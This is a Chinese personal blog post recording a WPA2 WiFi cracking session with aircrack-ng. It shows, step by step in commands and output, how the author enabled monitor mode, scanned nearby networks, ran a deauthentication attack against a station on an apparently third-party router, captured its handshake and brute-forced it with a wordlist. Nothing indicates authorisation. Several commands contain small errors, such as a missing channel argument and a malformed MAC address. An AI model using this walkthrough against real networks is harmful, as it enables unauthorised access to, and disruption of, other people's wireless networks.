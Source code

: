 ```yaml
---
layout: post
title:  "一次wifi破解记录"
categories: Hacker
tags:  wifi hacker
---
```


* content
{:toc}


## 0x00 前言

wifi破解工具有很多，比如wifite、aircrack、cowpatty、reaver等等，其中wifite是最傻瓜式的，但是个人尝试很久，没有破解成功一次，我就很好奇，是我的方式不对？cowpatty只管破解，因此还是要和air结合起来用。reaver破解的非常非常慢，一次要很久，但是一般都能搞定。这次先用aircrack。





## 0x01 准备

装逼要用全套的，特意买的3070的网卡，专用破解。

据说效果很好，但是我完全体会不到......

```
~$ lsusb
Bus 001 Device 014: ID 148f:3070 Ralink Technology, Corp. RT2870/RT3070 Wireless Adapter

~$ iwconfig
wlan1     IEEE 802.11bgn  ESSID:off/any
          Mode:Managed  Access Point: Not-Associated   Tx-Power=30 dBm
          Retry  long limit:7   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:on
```

## 0x02 获取握手包

### 1.激活监听模式

```
~$ airmon-ng start wlan1

PHY     Interface       Driver          Chipset
phy1    wlan1           rt2800usb       Ralink Technology, Corp. RT2870/RT3070

                (mac80211 monitor mode vif enabled for [phy1]wlan1 on [phy1]wlan1mon)
                (mac80211 station mode vif disabled for [phy1]wlan1)
                (mac80211 station mode vif disabled for [phy1]wlan1)
```

激活之后就发现名称变了，多了个mon，后面的mode是monitor。

```
~$ /home/dante# iwconfig

wlan1mon  IEEE 802.11bgn  Mode:Monitor  Tx-Power=30 dBm
          Retry  long limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```

### 2. 获取wifi信息
```
airodump-ng wlan0mon
下面就会显示出所有的wifi的链接信息。之前遗漏了这一块，暂时不补了。

```

### 3.抓包

破解的过程就是先抓包，抓到它的四次握手包，然后破解出密码。

```
airodump-ng --ivs -w filename -c wlan1mon
```

```
BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 5C:63:BF:61:8B:C8  -58      639      761    0   6  54e. WPA2 CCMP   PSK  quan
 30:F3:35:87:24:BC  -66      330        0    0   4  54e  WPA2 CCMP   PSK  CU_57w8
 C0:61:18:22:8B:2B  -65      620      547    0   6  54e. WPA2 CCMP   PSK  tunshi6
 64:09:80:4B:FC:2C  -71      223     2184    1   1  54e  WPA2 CCMP   PSK  Xiaomi_tunshi7

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe

 5C:63:BF:61:8B:C8  A4:C4:94:DB:10:1A  -44    0 - 2e     0      153  quan
 C0:61:18:22:8B:2B  74:2F:68:4A:7B:7B  -84    0e- 1      0      558  tunshi6
 64:09:80:4B:FC:2C  AC:B5:7D:D1:00:62   -1    1e- 0      0      154
 64:09:80:4B:FC:2C  14:F6:5A:B6:E2:94  -80    1e- 1      0     1369  su8-1
 ......
```

### 4.Deauth攻击

现在对脸上路由器64:09:80:4B:FC:2C上的设备64:09:80:4B:FC:2C进行攻击。

```
~$ aireplay-ng -0 10 -a 64:09:80:4B:FC:2C -c 64:09:80:4B:FC:2C4 wlan1mon --ignore-negative-one
13:18:29  Waiting for beacon frame (BSSID: 64:09:80:4B:FC:2C) on channel -1
13:18:30  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
13:18:30  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
13:18:30  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
13:18:31  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
13:18:31  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
13:18:32  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
```
可以看到，当发送攻击的时候，你攻击的那台设备就会丢包。

```
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe
 C0:61:18:22:8B:2B  74:2F:68:4A:7B:7B  -86    0e- 1      0      834  tunshi6
 64:09:80:4B:FC:2C  14:F6:5A:B6:E2:94    0    0e- 1    373     3782  su8-1
```

发送了好几次攻击，过了二十多分钟才获取到握手包。可以看到下面获取到了handshake

```
  CH  4 ][ Elapsed: 25 mins ][ 2016-03-06 13:34 ][ WPA handshake: 64:09:80:4B:FC:2C

 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
 5C:63:BF:61:8B:C8  -58     1973      909    0   6  54e. WPA2 CCMP   PSK  quan
 30:F3:35:87:24:BC  -64     1062        0    0   4  54e  WPA2 CCMP   PSK  CU_57w8
 64:09:80:4B:FC:2C  -73      707     4411    0   1  54e  WPA2 CCMP   PSK  Xiaomi_tunshi7
 ......
```
## 0x03 破解

破解就是用了爆破，完全是看字典！

```
aircrack-ng -w dic.txt test-0*.cap

```
然后选定需要破解的wifi即可开始进行破解。话说，运气不好的时候，打死也破解不出来.......

```
                           Aircrack-ng 1.2 rc3


                   [00:00:31] 12552 keys tested (381.79 k/s)


                       Current passphrase: 123bandit


      Master Key     : E3 A0 4F 08 DC D9 95 A5 87 48 02 B5 E1 93 C6 84
                       75 DD 23 E8 45 65 DD CA B8 89 53 96 75 E8 56 10

      Transient Key  : 11 24 33 3A FE 8F 51 E6 7D 7C C5 C2 BB 9B 0B 6F
                       4F 99 8C 5D 67 2B E2 6A 9C 34 2A 4A FB 1D 19 4F
                       84 C4 4C 8D 58 3B 22 70 C9 36 FD 98 D9 D6 E6 94
                       72 C9 AF 54 E1 B2 83 F1 EF 2A FA 0C 7D 59 3A 96

      EAPOL HMAC     : 80 84 40 03 84 DC E4 20 41 FF 74 C8 FB 1C DE EB
```

## 0xFF 总结

aircrack的确是神器，用好了破解个wifi不是太大问题的，不过也就弱密码比较好搞定一些，有些意识比较强的孩子密码设置的比较神奇，基本也没戏。

不过破解的方式也总是在提高，比如彩虹表、GPU这些各种高效的方式都可以使用，目前爆破能拿来玩一玩，剩余的慢慢研究。

**补充**

其实到头来都是在用工具，对里面的原理还没有太深的理解，下一步多了解一些使用方式后，着重自己动手写一些程序来操作。


******
2016-03-06 19:18:00 hnds
